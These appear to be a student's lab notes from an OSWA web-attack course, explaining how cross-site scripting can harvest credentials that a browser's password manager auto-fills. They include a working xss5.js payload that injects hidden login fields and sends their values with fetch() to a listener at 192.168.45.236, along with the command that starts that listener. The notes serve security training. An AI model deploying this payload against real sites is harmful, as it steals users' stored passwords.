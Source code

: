 ![[Pasted image 20240805164357.png]]


------------------
#### 5.1.6 Stealing Saved Passwords
As security experts, we often recommend users use a password manager to store their passwords. However, some password managers will conveniently auto-fill any login prompt as soon as it's displayed on screen. We can take advantage of this to steal the credentials a user has stored in their password manager. In most situations, this can be done almost instantly and inconspicuously.

Not all password managers will auto-fill login prompts, but many of the built-in browser password managers will (like the ones found in Chrome). Typically, they search for the combination of a username (or email) input and an input that has the _type_ attribute set to "password". As attackers, we could create a similar form for a browser to auto-fill, which allows us to steal the credentials and exfiltrate them out.

While we could add the HTML input tags in the script payload, we'll keep everything in the xss.js file instead to stay organized. In this file, we'll have to create a username and password input. Once the inputs are added to the page, the password manager would automatically fill them with the saved credentials. After some time, we'll send the value of the input back to our Kali machine.

```bASH
┌──(root💀gobots)-[05Aug2024 20:48:35]-[/home/kali/SUT/OSWA/xss]
└─# vim xss5.js

┌──(root💀gobots)-[05Aug2024 20:48:46]-[/home/kali/SUT/OSWA/xss]
└─# cat xss5.js 
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";

body.append(u)
body.append(p)

setTimeout(function(){ 
    fetch("http://192.168.45.236:80/k?u=" + u.value + "&p=" + p.value)
}, 5000);
                 
┌──(root💀gobots)-[05Aug2024 20:49:27]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We'll first save the body of the document into a _body_ variable on line 1. On lines 3 and 8, we'll create two elements: _u_ for username and _p_ for password. The username input element will have the _type_ attribute set to text (line 4) and the password input element will have the type attribute set to _password_ (line 9). As found on lines 5 and 10, the input fields will have a fixed position (so they don't interfere with the application). In the end, we'll set the opacity of the input fields (lines 6 and 11) to 0 so they aren't visible. However, we'll comment this out for now so that we can examine the input boxes in the victim's browser and then append them to the body once they're created. At this point, the browser should fill any saved credentials. To confirm, we'll set a timeout for 5 seconds on lines 16-18 at which point, a GET request will be made containing the value of the username and password.
